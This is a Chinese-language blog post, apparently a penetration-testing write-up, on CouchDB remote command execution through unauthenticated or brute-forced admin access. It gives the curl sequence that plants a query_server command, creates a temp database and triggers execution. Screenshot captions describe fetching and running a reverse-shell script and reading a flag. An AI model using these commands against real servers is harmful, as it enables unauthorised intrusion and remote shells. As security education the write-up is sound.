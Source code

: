```yaml
---
layout:     post
title:      "Couchdb命令执行"
subtitle:   "一点点记录"
date:       2016-09-11
author:     "Urahara"
header-img: "img/Couchdb-RCE.jpg"
header-mask: 0.3
tags:
    - 渗透测试
    - 数据库安全
---
```



## 背景介绍
 CouchDB是一个开源的面向文档的数据库管理系统，可以通过 RESTful JavaScript Object Notation (JSON) API 访问。CouchDB 可以安装在大部分 POSIX 系统上，包括 Linux和 Mac OS X。

## 漏洞介绍
Couchdb默认会在5984端口开放Restful的API接口，如果使用SSL的话就会监听在6984端口，用于数据库的管理功能。其HTTP Server默认开启时没有进行验证，而且绑定在0.0.0.0，所有用户均可通过API访问导致未授权访问。

使用nmap扫描可发现couchdb的banner信息
![couchdb默认端口](https://urahara3389.github.io/img/Couchdb-RCE-nmap.png)

>执行命令需要使用admin权限，如果数据库存在未授权则可直接利用，若有账号认证则需要想办法获取admin的密码，当然可通过burpsuit去爆破/_utils/，也可以通过metasploit中的auxiliary/scanner/couchdb/couchdb_login模块直接进行爆破

CouchDB提供了一个可视化界面工具，在浏览器中运行“http://127.0.0.1:5984/_utils/”，即可见到如下所示的界面。
![账号认证](https://urahara3389.github.io/img/Couchdb-RCE-admin.png)

## 漏洞利用
这里举例有账号认证的情况，我们需要使用admin身份登录然后获取cookie，再使用curl命令与api进行交互，实现数据库操作
![获取Cookie](https://urahara3389.github.io/img/Couchdb-RCE-cookie.png)

>远程命令执行示例
1. 新增query_server配置，写入要执行的命令；
2. 新建一个临时库和临时表，插入一条记录；
3. 调用query_server处理数据

```
curl -X PUT 'http://192.168.199.181:5984/_config/query_servers/cmd' -d '"python /tmp/back.py"'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"

curl -X PUT 'http://192.168.199.181:5984/teeest'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"```

curl -X PUT 'http://192.168.199.181:5984/teeest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"```

curl -X POST 'http://192.168.199.181:5984/teeest/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"
```

远程下载反弹脚本
![写入命令](https://urahara3389.github.io/img/Couchdb-RCE-command.png)
成功监听到下载请求
![监听下载](https://urahara3389.github.io/img/Couchdb-RCE-download.png)
添加执行权限
![添加执行权限](https://urahara3389.github.io/img/Couchdb-RCE-chmod.png)
执行反弹脚本
![执行反弹](https://urahara3389.github.io/img/Couchdb-RCE-backshell.png)
getshell，读取flag
![成功](https://urahara3389.github.io/img/Couchdb-RCE-over.png)
>同样你也可以不用登录获取Cookie，直接在curl请求中带入账号密码也是可以的，类似于这样
> 


### 参考
[CouchDB未授权访问导致执行任意系统命令漏洞](https://www.secpulse.com/archives/45917.html)

[CouchDB未授权访问漏洞导致系统命令执行](http://blog.nsfocus.net/couchdb-unauthorized-access-vulnerability-system-command/)